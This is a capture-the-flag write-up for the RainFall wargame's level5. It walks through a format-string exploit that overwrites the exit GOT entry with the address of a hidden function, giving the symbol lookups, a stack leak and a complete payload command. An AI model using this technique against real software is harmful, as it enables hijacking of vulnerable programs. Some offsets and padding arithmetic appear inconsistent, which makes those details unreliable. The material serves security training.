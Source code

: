 ```bash
evel5@RainFall:~$ readelf -s level5 | grep o
Symbol table '.dynsym' contains 10 entries:
     5: 00000000     0 NOTYPE  WEAK   DEFAULT  UND __gmon_start__
Symbol table '.symtab' contains 73 entries:
    31: 08048420     0 FUNC    LOCAL  DEFAULT   13 __do_global_dtors_aux
    32: 0804984c     1 OBJECT  LOCAL  DEFAULT   25 completed.6159
    33: 08049850     4 OBJECT  LOCAL  DEFAULT   25 dtor_idx.6161
    39: 080485a0     0 FUNC    LOCAL  DEFAULT   13 __do_global_ctors_aux
    57: 00000000     0 NOTYPE  WEAK   DEFAULT  UND __gmon_start__
    59: 08049844     0 OBJECT  GLOBAL HIDDEN    24 __dso_handle
    67: 080484a4    30 FUNC    GLOBAL DEFAULT   13 o

```

```bash
(gdb) x o
0x80484a4 <o>:	0x83e58955
```

address of function o: `080484a4` == `\xa4\x84\x04\x08`

```bash
level5@RainFall:~$ (python -c 'print ("AAAABBBB" + "%x " * 20)';cat) | ./level5
AAAABBBB200 b7fd1ac0 b7ff37d0 41414141 42424242 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520
```

offset of buffer of printf is `3`

---

```bash
level5@RainFall:~$ objdump -R level5 | grep exit
08049828 R_386_JUMP_SLOT   _exit
08049838 R_386_JUMP_SLOT   exit
```

Address of exit is `08049838` == `\x38\x98\x04\x08`

## Payload

value to write = adress of o = `0x080484a4` = `134513828`

Lets do 2 writes

value 1: `0x 0000 84a4` = `33956`
value 2: `0x 0001 0804` = `67588`

cible 1 = `08049838` 				== `\x38\x98\x04\x08`

cible 2 = cible1 + 2 ==  `804983A`	== `\x3a\x98\x04\x08`

```python
exploit = ""
exploit += "\x38\x98\x04\x08"	//cible1
exploit += "\x3a\x98\x04\x08"	//cible2
exploit += "%3$33948x"			// padding to get to value 1 (33956 - 8 = 33948)
exploit += "%3$n"				//write cible 1
exploit += "%3$33624x"			//paddding to get to value 2 (67588 - 33956 - 8 = 33624)
exploit += "%4$n"
```

```bash
(python -c 'print ("\x38\x98\x04\x08" + "\x3a\x98\x04\x08" + "%3$33948x" + "%3$n" + "%3$33624x" + "%4$n")';cat) | ./level5
```

